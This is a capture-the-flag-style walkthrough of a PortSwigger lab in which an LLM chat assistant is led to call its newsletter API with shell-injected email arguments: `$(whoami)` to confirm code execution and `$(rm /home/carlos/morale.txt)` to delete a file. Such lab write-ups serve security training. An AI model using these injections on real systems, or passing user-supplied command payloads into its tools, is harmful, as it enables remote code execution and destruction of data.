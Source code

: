 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/pentesting/d29-01-apr/llm/lab-exploiting-vulnerabilities-in-llm-ap-is/"}
---
```


Date : 01 Apr 2025

---

[Access the lab](https://portswigger.net/web-security/llm-attacks/lab-exploiting-vulnerabilities-in-llm-apis)

1. From the lab homepage, click **Live chat**.
2. Ask the LLM what APIs it has access to. The LLM responds that it can access APIs controlling the following functions:
    
    - Password Reset
    - Newsletter Subscription
    - Product Information
![attachments/Pasted image 20250403122845.png](/img/user/Cybersecurity/Pentesting/D29_01%20Apr/LLM/attachments/Pasted%20image%2020250403122845.png)

3. Consider the following points:
    
    - You will probably need remote code execution to delete Carlos' `morale.txt` file. APIs that send emails sometimes use operating system commands that offer a pathway to RCE.
    - You don't have an account so testing the password reset will be tricky. The Newsletter Subscription API is a better initial testing target.
4. Ask the LLM what arguments the Newsletter Subscription API takes.
![attachments/Pasted image 20250403122944.png](/img/user/Cybersecurity/Pentesting/D29_01%20Apr/LLM/attachments/Pasted%20image%2020250403122944.png)

5. Ask the LLM to call the Newsletter Subscription API with the argument `attacker@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
![attachments/Pasted image 20250403123103.png](/img/user/Cybersecurity/Pentesting/D29_01%20Apr/LLM/attachments/Pasted%20image%2020250403123103.png)

6. Click **Email client** and observe that a subscription confirmation has been sent to the email address as requested. This proves that you can use the LLM to interact with the Newsletter Subscription API directly.
![attachments/Pasted image 20250403152847.png](/img/user/Cybersecurity/Pentesting/D29_01%20Apr/LLM/attachments/Pasted%20image%2020250403152847.png)    
7. Ask the LLM to call the Newsletter Subscription API with the argument `$(whoami)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
![attachments/Pasted image 20250403152925.png](/img/user/Cybersecurity/Pentesting/D29_01%20Apr/LLM/attachments/Pasted%20image%2020250403152925.png)
   
8. Click **Email client** and observe that the resulting email was sent to `carlos@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`. This suggests that the `whoami` command was executed successfully, indicating that remote code execution is possible.
![attachments/Pasted image 20250403152958.png](/img/user/Cybersecurity/Pentesting/D29_01%20Apr/LLM/attachments/Pasted%20image%2020250403152958.png)
    
9. Ask the LLM to call the Newsletter Subscription API with the argument `$(rm /home/carlos/morale.txt)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`. The resulting API call causes the system to delete Carlos' `morale.txt` file, solving the lab.
![attachments/Pasted image 20250403153439.png](/img/user/Cybersecurity/Pentesting/D29_01%20Apr/LLM/attachments/Pasted%20image%2020250403153439.png)

### Lab Done!

